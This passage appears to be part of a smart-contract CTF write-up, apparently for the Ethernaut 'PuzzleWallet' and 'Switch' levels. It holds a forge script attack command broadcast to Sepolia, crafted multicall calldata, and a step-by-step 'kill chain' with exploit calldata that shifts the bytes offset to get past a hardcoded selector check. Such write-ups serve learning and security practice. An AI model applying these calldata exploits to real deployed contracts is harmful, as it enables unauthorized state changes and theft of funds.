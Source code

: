 ```shell
0xac9650d80000000000000000000000000000000000000000000000000000000000000020000000000000000000000000000000000000000000000000000000000000000100000000000000000000000000000000000000000000000000000000000000200000000000000000000000000000000000000000000000000000000000000004d0e30db000000000000000000000000000000000000000000000000000000000,\
0xd0e30db0\
]")

$ export PRIVATE_KEY="0x...";
$ forge script --rpc-url=$SEPOLIA_RPC_URL --broadcast AttackPuzzleWallet
```

---

## Switch

### Useful resources

- https://docs.soliditylang.org/en/v0.8.19/abi-spec.html#examples
- https://r4bbit.substack.com/p/abi-encoding-and-evm-calldata
- https://www.evm.codes/#37 | CALLDATACOPY

| Function | Selector |
| --- | --- |
| `turnSwitchOff()` | 0x20606e15 |
| `turnSwitchOn()` | 0x76227e12 |
| `flipSwitch(bytes)` | 0x30c13ade |

### Kill chain

1. Call the `flipSwitch(bytes memory _data)` as it's the only public function;
2. Passing the `onlyOff` modifier - calldata bytes 68-71 should be the `turnSwitchOff()` function selector. This corresponds to the `_data[0]` bytes array in the calldata with the default offset of 32 bytes;
3. Finally, the `_data` also should be a valid calldata and `_data[0]` should start with `turnSwitchOn()` function selector.
4. Calldata mapping in normal case for the `flipSwitch(bytes memory _data)` function:
```
4 bytes - function selector | word (32 bytes) - offset of the byte stream start | word - length of the _data | word * X - _data, in word sized chunks
```
this yeilds the following calldata:
```
0x30c13ade | 0000000000000000000000000000000000000000000000000000000000000020 | 0000000000000000000000000000000000000000000000000000000000000004 | 76227e1200000000000000000000000000000000000000000000000000000000
```
EVM will understand if we modify the data start offset, however the `onlyOff` modifier has a hardcoded offset. We can exploit that to trick the check. See the code to assemble the _calldata with `abi.encodePacked` in [Switch.t.sol](./test/Switch.t.sol). For example:
```
0x30c13ade | 0000000000000000000000000000000000000000000000000000000000000060 | 0000000000000000000000000000000000000000000000000000000000000000 | 20606e1500000000000000000000000000000000000000000000000000000000 | 0000000000000000000000000000000000000000000000000000000000000004 | 76227e1200000000000000000000000000000000000000000000000000000000
```
